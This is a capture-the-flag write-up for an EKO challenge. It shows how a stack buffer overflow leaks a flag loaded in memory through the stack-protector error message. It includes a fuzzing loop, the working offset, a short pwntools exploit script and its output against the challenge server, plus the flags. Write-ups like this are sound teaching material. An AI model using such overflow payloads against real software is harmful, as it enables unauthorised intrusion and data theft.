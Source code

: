 ### Solved by superkojiman

Connect to the server and we get:

```
$ nc challs.ctf.site 20001
Interesting data loaded at 0x7fffffffe540
Your username?
```

This address never changes. If we run it in gdb we see that the contents of flag.txt is copied into that address. There's one call to read() that reads in 1024 bytes, and a stack canary is present. 

We can use a SSP leak to get the flag. First use pattern_create to determine at which point RIP is overwritten. In this case, it's at offset 152. So we can start fuzzing at offset 152. On my local machine the address is 0x7fffffffe0b0:

```
# for i in `seq 152 1024`; do echo "i: $i"; python -c "from pwn import *;print 'A' * ${i} + p64(0x7fffffffe0b0)" | ./xpl; done
.
.
.
i: 374
Interesting data loaded at 0x7fffffffe0b0
Your username? Segmentation fault (core dumped)
i: 375
Interesting data loaded at 0x7fffffffe0b0
Your username? Segmentation fault (core dumped)
i: 376
Interesting data loaded at 0x7fffffffe0b0
Your username? *** stack smashing detected ***: flag{w00t-w00t-ninja}
 terminated
Aborted (core dumped)
i: 377
Interesting data loaded at 0x7fffffffe0b0
Your username? Segmentation fault (core dumped)
.
.
.
```

At offset 376 we get our own flag. So let's try it on the server. Exploit:

```python
#!/usr/bin/env python

from pwn import *

buf = ""
buf += "A"*376
buf += p64(0x7fffffffe540)

f = open("in.txt", "w")
f.write(buf)
f.close()

We can pipe this file into nc to get the flag:

# cat in.txt | nc challs.ctf.site 20001
Interesting data loaded at 0x7fffffffe540
Your username? *** stack smashing detected ***: EKO{pwning_stack_protector}
 terminated
```

Flag is ***EKO{pwning_stack_protector}***
